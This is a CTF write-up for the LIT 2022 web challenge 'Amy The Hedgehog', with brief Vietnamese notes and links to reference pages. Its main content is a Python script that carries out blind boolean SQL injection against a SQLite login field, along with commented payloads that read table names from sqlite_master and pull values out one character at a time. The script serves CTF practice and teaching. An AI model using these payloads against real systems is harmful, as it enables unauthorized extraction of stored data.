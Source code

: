 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# LIT 2022

## web/Amy The Hedgehog

![](<.gitbook/assets/image (43).png>)

```
import requests, string

url = "http://litctf.live:31770/"
s = requests.session()
passwordRetrieve = ""
# ' or (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type = 'table' AND tbl_name = 'names') = hex('some_char')--
# find column from table: ' or (SELECT hex(substr(sql,{index},1)) FROM sqlite_master WHERE type = 'table' AND tbl_name = 'names') = hex('{char}')-- 
alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c"
def solve():
    global passwordRetrieve
    index = 1
    len_of_password = 14 - index
    for i in range(len_of_password):
        for char in alpha:
          passwordfield = f"' or (SELECT hex(substr(name,{index},1)) FROM names) = hex('{char}')--"
          postParam = {'name': passwordfield}
          response = s.post(url, data=postParam).text
          if "You got it"  in response:
              passwordRetrieve += char
              index += 1
              print("Nai here yr pass: ",passwordRetrieve, "  len:",i)
              break
          print(char)
solve()
```

* Xác định SQLite -> sqlite\_master -> tbl\_name -> column -> name
* [doc1](https://freetuts.net/lenh-select-trong-sqlite-1731.html)
* [doc2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---count-number-of-tables)

![](<.gitbook/assets/image (30).png>)
